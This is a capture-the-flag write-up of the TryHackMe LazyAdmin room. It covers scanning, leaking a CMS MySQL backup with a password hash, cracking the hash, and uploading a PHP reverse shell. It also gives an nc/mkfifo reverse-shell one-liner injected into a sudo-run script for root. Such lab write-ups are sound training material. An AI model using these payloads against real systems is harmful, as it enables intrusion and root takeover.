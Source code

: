 # CTF-Write-up

## Try Hack Me - LazyAdmin

##### URL: https://tryhackme.com/room/lazyadmin

##### Created by _MrSeth6797_

![LOGO](https://user-images.githubusercontent.com/20625004/110367101-e9e80200-804f-11eb-8b4f-d78f95f0d930.PNG)

##### You should deploy the machine first.

##### Run nmap against the target machine.

```nmap <target IP>```

![nmap](https://user-images.githubusercontent.com/20625004/110367723-bc4f8880-8050-11eb-9081-b9d0124b49f7.PNG)

Port 80 web access. 

![port80](https://user-images.githubusercontent.com/20625004/110367979-13555d80-8051-11eb-8a8e-83295c572554.PNG)

Next we fire up ```gobuster``` in order to seach for paths in the web application that will help us to map the app.

We found the path ```/content/``` with some info about the CMS that is being used on the web app.

![path1](https://user-images.githubusercontent.com/20625004/110368430-b3ab8200-8051-11eb-8251-ddcd3f1c1042.PNG)

Then we use again ```gobuster``` with the new path in order to reveal other paths.

![gobuster](https://user-images.githubusercontent.com/20625004/110369032-75fb2900-8052-11eb-8dec-b4e8edfdb726.PNG)

And now we have found a login page.

![path2](https://user-images.githubusercontent.com/20625004/110368771-2c124300-8052-11eb-9ab5-f96f7eb8c8d3.PNG)

Searching for exploits we found that there is a Backup Disclosure vulnerability.

By using the below path we can see that the mysql_backup file can be downloaded.

```http://<target IP>/content/inc/mysql_backup/```

Within the file there is user and a hashed password.

![hashed](https://user-images.githubusercontent.com/20625004/110369521-2f59fe80-8053-11eb-896d-cc83706dad92.PNG)

Use an online cracking site or hashcat to reveal the right one.

Use the creds from previous step to login and navigate to the web application. Navigate to media center and upload the reverse shell ```https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php``` renaming it to something.php5, and now we have uploaded the file. 

![cms](https://user-images.githubusercontent.com/20625004/110370935-fd499c00-8054-11eb-93f2-1095f2ad08a5.PNG)


open terminal and execute nc -lnvp 4444 and the access the file you have uploaded, and now you got shell to the system.

After searching around you can found the first flag on the path /home/something/user.txt

![flag1](https://user-images.githubusercontent.com/20625004/110371811-29195180-8056-11eb-91e0-a0a6ef444808.PNG)

For the second flag we have to escalete our privileges.

```sudo -l``` reveal that we can run (‘sh’,’/etc/copy.sh’) and checking the permission of /etc/copy.sh we see we can modify that and we change the file.

![flag2_1](https://user-images.githubusercontent.com/20625004/110375247-641d8400-805a-11eb-817d-58820320dda2.PNG)

```echo "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc <your-ip> 4444" >/tmp/f > copy.sh``` 

Now running backup.pl with sudo gives us a reverse shell.

```sudo /usr/bin/perl /home/itguy/backup.pl```.

on /root/ there is the second flag.






